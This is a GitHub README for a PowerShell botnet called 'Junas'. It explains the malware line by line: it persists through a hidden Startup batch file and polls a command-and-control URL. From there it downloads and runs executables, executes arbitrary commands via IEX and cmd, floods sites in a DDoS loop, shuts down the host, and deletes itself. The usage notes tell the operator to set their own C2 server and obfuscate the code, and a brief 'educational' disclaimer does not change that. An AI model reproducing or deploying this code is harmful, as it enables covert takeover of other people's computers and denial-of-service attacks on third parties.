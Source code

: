 ## Junas botnet
### Legal
This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br> 
<br> *Copyright (c) 2021 Pokesi All Rights Reserved.*
### How it works **step by step**
Syntax used:
<br> `Line of code/variable` - Explanation
<br> ... `Line of code` - Explanation [not required]
<br> ...... `Line of code` - Explanation [only used for branches]
<br> ... `}` - Ends the branch
<br> 
<br> `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> `$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br> ... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br> ... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br> ... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br> ... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br> ... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> ... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> ... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br> ... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br> ...... `exit()` - Exits PowerShell
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br> ...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br> ...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br> ...... `try {` - PowerShell try
<br> ......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br> ......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br> ......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br> ......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br> ...... `}` - Ends the branch
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br> ...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br> ...... `IEX($cmd3);` - Runs the string with IEX.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br> ...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br> ...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br> ...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br> ...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br> ...... `Stop-Computer;` - Shutdown machine
<br> ... `}` - Ends the branch
<br> ... `else {` - If nothing else works, do this.
<br> ...... `exit;` - Stops the script
<br> ... `}` - Ends the branch
<br> ... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br> `"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br> `Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
### Usage
Change https://yoursite.com/server.txt to your command and control server.
<br> You may want to obfuscate this or add custom commands.
